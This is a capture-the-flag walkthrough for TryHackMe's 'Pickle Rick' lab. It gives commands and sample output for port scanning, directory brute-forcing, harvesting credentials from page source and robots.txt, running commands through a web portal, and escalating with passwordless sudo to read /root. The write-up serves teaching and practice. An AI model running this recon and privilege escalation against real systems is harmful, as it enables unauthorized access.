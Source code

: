 # TryHackMe - Pickle Rick Walkthrough
---

## 1. Scanning

First, we start by scanning the target machine to see which ports are open.

```bash
nmap -T4 -sC -sV -A -p- 10.201.75.114
```
**Sample Output:**
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu
80/tcp open  http    Apache httpd 2.4.41
```
**Command Breakdown:**
- `-T4`: Set the speed of the scan (faster than default)
- `-sC`: Run default NSE scripts for discovery
- `-sV`: Attempt to determine the version of services
- `-A`: Enable OS detection, version detection, script scanning, and traceroute
- `-p-`: Scan all 65535 TCP ports
- SSH (22) is open → we may need credentials later.
- HTTP (80) is open → a website exists to explore.

---

## 2. Accessing the Website

We launch a browser (Firefox in our case) and type:

```
http://10.201.75.114
```

This loads the main webpage. Inspecting the page source reveals a username:

```
Username: R1ckRul3s
```

We take note of this username to use later for login.

---

## 3. Finding Hidden Directories

We use `gobuster` to enumerate hidden directories:

```bash
gobuster dir -u http://10.201.75.114 -w /usr/share/dirb/common.txt -x php,sh,txt,cgi,html,css,js,py
```

**Command Breakdown:**
- `-u`: Target URL
- `-w`: Wordlist for brute-forcing directories
- `-x`: File extensions to check

**Sample Output:**
```
/assets          (Status: 301)
/login.php       (Status: 200)
/portal.php      (Status: 200)
/robots.txt      (Status: 200)
```

We see `login.php`, `portal.php`, `assets/`, and `robots.txt`.

---

## 4. Finding the Password

Checking `robots.txt` via browser or curl:

```bash
curl http://10.201.75.114/robots.txt
```

**Output:**
```
Wubbalubbadubdub
```

This is our password. Now we can log in to `login.php` using:

- Username: `R1ckRul3s`
- Password: `Wubbalubbadubdub`

---

## 5. Accessing the Command Portal

Once logged in, we enter the **command portal**, which lets us run commands.

- First, check existing commands (files):

```bash
ls
```

**Output:**
```
Sup3rS3cretPickl3Ingred.txt
clue.txt
```

The first ingredient is in `Sup3rS3cretPickl3Ingred.txt`. Access it via:

```bash
curl http://10.201.75.114/Sup3rS3cretPickl3Ingred.txt
```

**Output:**
```
[First ingredient content]
```

---

## 6. Finding the Second Ingredient

Open `clue.txt` to get hints:

```bash
cat clue.txt
```

Hint mentions the file system → check `/home` directory:

```bash
ls /home
```

**Output:**
```
rick
ubuntu
```

Go into `rick` directory:

```bash
ls /home/rick
```

**Output:**
```
second ingredients
```

`cat` may be disabled, so we use `less` instead:

```bash
less '/home/rick/second ingredients'
```

**Output:**
```
[Second ingredient content]
```

**Explanation of `less`:**
- `less` lets you read files even if other commands (like `cat`) are blocked.
- Scrolls through content interactively without executing anything.
- [less-about][https://en.wikipedia.org/wiki/Less_(Unix)]

---

## 7. Finding the Third Ingredient

Check `/root` directory:

```bash
ls /root
```

We do **not** have permission. Use `sudo` to elevate privileges:

```bash
sudo -l
```

**Output:**
```
User R1ckRul3s may run commands as root without password
```

Check contents of `/root`:

```bash
sudo ls /root
```

**Output:**
```
3rd.txt
```

Read the file using `less` with sudo:

```bash
sudo less /root/3rd.txt
```

**Output:**
```
[Third ingredient content]
```

**Explanation of `sudo`:**
- `sudo` allows running commands as the root user.
- `sudo -l` lists allowed commands without needing a password.

---

## 8. Summary of Ingredients

1. `Sup3rS3cretPickl3Ingred.txt` → First ingredient
2. `/home/rick/second ingredients` → Second ingredient
3. `/root/3rd.txt` → Third ingredient

---

# Congrats!
You have completed the Pickle Rick challenge on TryHackMe.

